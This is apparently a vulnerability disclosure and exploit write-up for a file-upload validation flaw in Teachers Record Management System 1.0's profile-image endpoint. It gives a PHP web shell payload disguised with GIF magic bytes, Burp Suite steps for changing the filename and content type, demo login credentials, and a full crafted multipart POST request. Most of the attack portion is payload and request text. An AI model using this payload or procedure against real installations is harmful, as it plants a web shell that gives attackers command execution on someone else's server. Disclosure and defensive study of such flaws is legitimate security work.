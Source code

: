 ```
Exploit Title: Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage
Date: 17-01-2023
Vendor Homepage: https://phpgurukul.com
Software Link: https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/
Version: 1.0
Tested on: Windows 11 + XAMPP 
```
<h1>TITLE</h1>
Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage

<h2>DESCRIPTION</h2>
The upload functionality of updating user profile does not properly validate the file content-type, 
filename, allowing any authenticated user to bypass this security check by adding a valid signature (p.e. GIF89) 
and sending any invalid content-type. This could allow an authenticated attacker to upload HTML files with JS content 
that will be executed in the context of the domain.

## PAYLOAD-USED ##
 ` GIF89a <?php echo system($_REQUEST['dx']); ?> `

<h2>STEPS-TO-REPRODUCE</h2>

1. Login into Teacher-Account with the credentials “**Username:** jogoe12@yourdomain.com”
**Password: Test@123**”

2. Navigate to Profile Section and edit the Profile Pic by clicking on **Edit Image**
3. Open the Burp-suite and Intercept the  Edit Image Request 
4. In POST Request Change the “ **Filename** “ from “ **profile picture.png** “  to  “**profile picture.php.gif** ” 
5. Change the **Content-type from “ image/png “ to “ image/jpg “**
6. And Add this **Payload** : ` GIF89a <?php echo system($_REQUEST['dx']); ?> `
7. Where **GIF89a is the GIF magic bytes this bypass the file upload extension**
8. Below is the Burpsuite-POST Request for all the changes that I have made above

<h2>PROOF-OF-CONCEPT</h2>
The following request was modified to allow uploading php file using a valid GIF signature, but can be modified to upload any kind of content-type:

```
POST /trms/teacher/changeimage.php HTTP/1.1
Host: localhost
Content-Length: 442
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryndAPYa0GGOxSUHdF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/trms/teacher/changeimage.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8alf0rbfjmhm3ddra7si0cv7qc
Connection: close

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="subjects"

John Doe
------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="newpic"; filename="profile picture.php.gif"
Content-Type: image/gif

GIF89a <?php echo system($_REQUEST['dx']); ?>

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryndAPYa0GGOxSUHdF--
```
![Teacher-management-poc-file-upload-1](https://user-images.githubusercontent.com/98345027/212889242-0b6bf2d9-d68e-428d-a2ea-c53418b6fa70.png)


<h2>IMPACT</h2>
This could allow an attacker to write custom pages ,Those pages can contain phishing html 
or even JS code that will be executed in the context of the active user browser, and also this
could allow an attacker to overwrite critical files simply by uploading a file with the same name

